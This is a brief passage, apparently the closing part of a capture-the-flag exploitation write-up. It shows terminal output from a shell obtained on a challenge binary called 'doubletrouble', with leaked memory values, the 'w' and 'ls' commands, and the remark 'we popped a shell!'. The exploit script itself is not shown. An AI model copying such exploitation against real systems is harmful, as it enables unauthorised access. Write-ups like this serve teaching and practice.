 ```
62:-1.328739e-231
63:2.120356e-314
64:5.883635e-278
65:3.785767e-270
66:4.865338e-270
67:4.865363e-270
68:4.872934e-270
$ w
 22:11:26 up  3:35,  1 user,  load average: 0.18, 0.11, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               16:28   ?xdm?   2:59   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --session=ubuntu
$ ls
core  doubletrouble  exploit.py  readme.md
```

Just like that, we popped a shell!